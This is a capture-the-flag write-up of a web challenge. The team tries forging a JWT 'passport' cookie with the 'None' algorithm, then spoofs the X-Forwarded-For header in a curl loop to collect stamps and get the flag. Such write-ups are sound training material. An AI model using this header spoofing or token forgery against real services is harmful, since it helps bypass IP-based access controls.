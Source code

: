 Web: Hacking around the world
-----------------------------

Challenge description:

```
Everyne likes to travel, even cookies. Sure sux how expesive plane tickets are though. maybe there is another way.

It looks like its behind a bad proxy ...

challenges.openctf.cat:9027
```

The challenge description hints at an issue with a proxy server. When connecting to the server it sets a `passport` cookie.

```
< HTTP/1.1 303 See Other
< Content-Type: text/memes
< Location: https://www.youtube.com/watch?v=yca6UsllwYs
< Set-Cookie: passport=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE1NjY2NDkxODksInBhc3Nwb3J0IjpbXX0.TDIdrmAgIdugAEkZBTx2wKFzeHJTwq90t2P4SwM5oXQ; Expires=Sat, 24 Aug 2019 12:19:49 GMT
< Date: Sat, 24 Aug 2019 12:12:39 GMT
< Content-Length: 0
```

The cookie is a JSON web token and decodes to `{"exp":1566649189,"passport":[]}`. We initially thought there was a problem with the cookie. Either the "bad proxy" might cache cookies of other users, or we might be able to create our own cookie and sign it with a "None" cipher. None of this worked.

Given the proxy hint we guessed to send it proxy related HTTP headers such as `Via`, `Forwaded` and `X-Forwarded-For`. The `X-Forwarded-For` header gave an error message `Try ipv4`.

When given it an IPv4 address it replied:

```
> X-Forwarded-For: 1.2.3.4:80

< You have 1/10 stamps on your passport.
< 0. US - Dallas
```

From here we just kept sending it requests with different IPs as the X-Forwarded-For headers. "Sometimes" the IP gave us a new stamp on the passport. We never figured out what IPs were valid or not, because a quick for loop gave us the flag

```bash
$ for i in `seq 1 254`; do curl -c cookies.txt -b cookies.txt -i -s -k  -X $'GET'     -H $'Host: challenges.openctf.cat:9027' -H "X-Forwarded-For: $i.1.1.3:80"     $'http://challenges.openctf.cat:9027/'; done

flag{wh4t_4_t4ng313d_w3b_w3_w34v3}
```
